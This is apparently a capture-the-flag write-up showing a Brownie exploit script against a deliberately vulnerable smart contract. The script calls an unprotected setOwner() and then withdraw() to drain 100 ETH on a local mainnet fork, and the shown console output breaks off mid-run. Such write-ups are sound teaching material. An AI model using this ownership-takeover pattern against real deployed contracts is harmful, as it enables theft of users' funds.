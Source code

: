 -   You can just ignore pretty much everything. The import part is from here

```py
# imports

[...]
    setup = Setup.at(f"{SETUP}")
    attacker = get_account()
[...]
```

-   These are brownie syntax from setting up a contract from its address & we are getting the attacker account from the `get_account()` function which is in the `helpful_scripts.py` file.

-   Next this is how we are reading the storage of the `Setup` contract & getting the address of the `VideoChallengeIntro` contract so that we can interact with it & using the same method as above we are making a contract container object to interact with it.

```py
[...]
# ? get the address of the target contract
    vci_contract = VideoChallengeIntro.at(setup.vci.call())
[...]
```

-   Next we are setting the owner this is the brownie syntax to specify from where the transaction is coming & we are setting a "gas_limit" because of the `RPC` requirement. Then we are calling the `withdraw()` funtion to drain the contract & steal the funds.

```py
[...]
vci_contract.setOwner({"from": attacker, "gas_limit": 200000}).wait(1)
vci_contract.withdraw({"from": attacker, "gas_limit": 200000}).wait(1)
[...]
```

-   That's pretty much it. The rest of the unexplained code is for just show-off & pretty printing purposes.

### Solve

-   Run locally by running

```js
brownie run scripts/hack.py

Brownie v1.19.3 - Python development framework for Ethereum

IntroYoutubeBlogDoneProject is the active project.

Launching 'ganache-cli --chain.vmErrorsOnRPCResponse true --wallet.totalAccounts 10 --hardfork istanbul --fork.url https://eth-mainnet.alchemyapi.io/v2/<API_KEY> --miner.blockGasLimit 12000000 --wallet.mnemonic brownie --server.port 8545 --chain.chainId 1'...

Running 'scripts/hack.py::main'...
Transaction sent: 0xb5772d6085a22a3276868343b64d84d48247895516aa538a24c1f15b60ab9f97
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 10
  Setup.constructor confirmed   Block: 17112229   Gas used: 256115 (2.13%)
  Setup deployed at: 0xb6286fAFd0451320ad6A8143089b216C2152c025

Is complete: False
Contract balance: 100 ETH
Transaction sent: 0x2874f1e3386af4a59d72fc258fa4c39bb36dd3cfc3831e9386ceebddb030c758
  Gas price: 0.0 gwei   Gas limit: 200000   Nonce: 5
  VideoChallengeIntro.setOwner confirmed   Block: 17112230   Gas used: 27043 (13.52%)

  VideoChallengeIntro.setOwner confirmed   Block: 17112230   Gas used: 27043 (13.52%)

Transaction sent: 0xde664d5411ed9b55d6579ad9bd11b824b84e87ea77fb238978acffb64e4c1e60
```